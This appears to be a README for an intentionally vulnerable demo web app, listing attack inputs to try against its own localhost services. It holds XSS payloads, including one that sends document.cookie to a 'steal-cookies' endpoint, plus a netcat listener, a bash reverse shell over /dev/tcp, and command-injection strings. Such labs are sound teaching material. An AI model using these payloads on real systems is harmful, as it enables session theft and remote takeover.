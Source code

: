## Vulnerable Services

### Self XSS

Try some inputs inputs in the first field:

- `<strong>cat`
- `<img src="doesnt exist" onerror="alert('I just executed some JavaScript, yikes!')">`

### Reflected XSS

Here's an example some URL which would be pretty naughty

- <http://localhost:8080/private/reflected-xss.html?first=%3Cimg%20src=%22doesnt%20exist%22%20onerror=%22alert(%27I%20just%20executed%20some%20JavaScript%20without%20any%20human%20interaction%20on%20the%20page!%27)%22%3E&autoSubmit=true>
- <http://localhost:8080/private/reflected-xss.html?first=%3Cimg%20src=%22doesnt%20exist%22%20onerror=%22fetch(`http://localhost:1337/steal-cookies?cookie=${encodeURIComponent(document.cookie)}`)%22%3E&autoSubmit=true>

## Shell Injection

```
# Open a netcat listener on the attacker machine (e.g. 172.20.0.2)
nc -nlvp 7777
```

```
# Open a reverse shell connection on the victim machine
/bin/bash -i >& /dev/tcp/172.20.0.3/7777 0>&1
```

Here's some inputs to try for the Video URL in the Shell Injection example.

- `; sleep 1;`
- `; /bin/bash -i >& /dev/tcp/172.20.0.3/7777 0>&1;`
